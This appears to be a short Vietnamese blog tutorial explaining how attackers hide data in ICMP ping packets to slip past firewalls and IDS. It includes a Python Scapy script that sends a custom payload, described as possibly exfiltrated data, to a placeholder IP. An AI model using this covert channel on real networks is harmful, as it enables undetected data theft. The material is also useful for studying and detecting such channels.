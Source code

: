 ```yaml
---
title:  "ICMP Packets with Payload"
date: 2025-04-13 10:00:00 +0700
comments: true
description: How to Create ICMP Packets with Payload to Exfiltrate Data
categories: [Cyber ​​Security, Networking]
toc: true
pin: true
tags: [protocol, python, packet, icmp]
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-04-13-how-to-create-icmp-packet-with-payload-exfiltrate-data/icmp.png
    alt: Icmp
---
```


## Introduction
---
Trong một số tình huống, kẻ tấn công có thể lợi dụng giao thức ICMP để gửi dữ liệu ra ngoài mạng, vượt qua các tường lửa và hệ thống Phát hiện/Ngăn chặn xâm nhập (IDS/IPS). Điều này có thể được thực hiện bằng cách nhúng dữ liệu vào các gói ICMP Echo Request và Echo Reply, khiến việc phát hiện việc xâm nhập trở nên khó khăn hơn.

Các gói ICMP, thường được sử dụng cho các chẩn đoán mạng như "ping", có thể bị thao túng để mang theo các payload tùy chỉnh (dữ liệu) mà kẻ tấn công muốn gửi.

## ICMP Payload Theory
---
- **ICMP Echo Request (Loại 8) và Echo Reply (Loại 0)** là các loại gói ICMP phổ biến, thường được sử dụng cho các yêu cầu ping. Tuy nhiên, ngoài việc kiểm tra kết nối, chúng có thể chứa một payload — dữ liệu mà kẻ tấn công muốn gửi.
  
- **Payload** đề cập đến dữ liệu được bao gồm trong gói ICMP. Dữ liệu này có thể là văn bản thuần túy, thông tin đã mã hóa hoặc thậm chí là dữ liệu bị đánh cắp.

## Creating ICMP Packets with Payload
---
Bạn có thể tạo các gói ICMP với payload tùy chỉnh bằng cách sử dụng Python và thư viện `Scapy`. Dưới đây là ví dụ về cách tạo một gói ICMP Echo Request với payload tùy chỉnh.

```python
from scapy.all import IP, ICMP, send

def send_icmp_payload(target_ip, message):
    # The payload is the message you want to send, can be encoded data
    payload = bytes(message, 'utf-8')

    # Create an ICMP Echo Request packet
    packet = IP(dst=target_ip) / ICMP(type=8) / payload  # type=8 is Echo Request

    # Send the packet
    print(f"Sending ICMP Echo Request with payload to {target_ip}")
    send(packet)

## Target IP and the message to be sent
target_ip = "192.168.x.x"  # Replace with the actual target IP address
message = "This is a test payload that could contain exfiltrated data."

send_icmp_payload(target_ip, message)
```